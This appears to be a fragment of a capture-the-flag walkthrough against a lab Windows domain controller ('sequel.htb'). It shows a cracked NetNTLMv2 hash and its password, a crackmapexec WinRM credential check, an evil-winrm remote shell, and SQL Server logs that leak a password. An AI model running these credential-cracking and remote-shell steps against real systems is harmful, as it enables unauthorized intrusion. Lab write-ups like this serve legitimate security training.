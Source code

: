 ```bash
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:2a68c844617f03e699f0102c341271f4:010100000000000080f660f35d6fd901a90afcd28f7f354c000000000100100041                                                                                                           100660067005000720049004e005400030010004100660067005000720049004e0054000200100050006900720055006b007700510045000400100050006900720055                                                                                                           5006b007700510045000700080080f660f35d6fd901060004000200000008003000300000000000000000000000003000009cda1e46ee79bae57149ebe478a06f0f35                                                                                                           5ca523d83fff147be6e50e8a1b524360a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e                                                                                                           e0035000000000000000000:REGGIE1234ronnie
```

```bash
└─$ crackmapexec winrm 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
SMB         10.10.11.202    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

```bash
└─$ evil-winrm -i 10.10.11.202  -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

```bash
2022-11-18 13:43:07.44 spid51      Changed language setting to us_english.
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
2022-11-18 13:43:08.24 spid51      Changed database context to 'master'.
2022-11-18 13:43:08.24 spid51      Changed language setting to us_english.
2022-11-18 13:43:09.29 spid9s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2022-11-18 13:43:09.31 spid9s      .NET Framework runtime has been stopped.
2022-11-18 13:43:09.43 spid9s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```
